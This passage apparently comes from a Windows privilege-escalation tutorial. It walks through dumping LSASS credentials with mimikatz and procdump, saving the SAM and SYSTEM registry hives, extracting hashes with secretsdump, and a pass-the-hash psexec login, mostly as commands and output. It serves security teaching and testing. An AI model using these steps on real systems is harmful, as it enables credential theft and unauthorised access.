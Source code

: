 ### Exploitation Steps

1. Verify the privilege is present:
   ```cmd
   whoami /priv
   ```

2. Use mimikatz to extract credentials from LSASS process:
   ```cmd
   privilege::debug
   sekurlsa::logonpasswords
   ```

3. Alternatively, dump the LSASS process and analyze offline:
   ```cmd
   procdump -ma lsass.exe lsass.dmp
   # Transfer to attacker machine
   # mimikatz: sekurlsa::minidump lsass.dmp + sekurlsa::logonpasswords
   ```

## Real-World Example: SeBackup / SeRestore

A server administrator created a "Backup Operators" group and added a user for backup purposes. This user had the SeBackup and SeRestore privileges.

1. Identify that we have the required privileges:
   ```cmd
   C:\> whoami /priv
   
   PRIVILEGES INFORMATION
   ----------------------
   
   Privilege Name                Description                    State
   ============================= ============================== ========
   SeBackupPrivilege             Back up files and directories  Disabled
   SeRestorePrivilege            Restore files and directories  Disabled
   ```

2. Exploit to extract registry hives:
   ```cmd
   C:\> reg save hklm\system C:\Users\BackupUser\system.hive
   The operation completed successfully.
   
   C:\> reg save hklm\sam C:\Users\BackupUser\sam.hive
   The operation completed successfully.
   ```

3. Extract hashes and gain access:
   ```bash
   # Extract hashes
   python3 secretsdump.py -sam sam.hive -system system.hive LOCAL
   
   # Use the Administrator hash for Pass-the-Hash
   python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.10.10
   ```

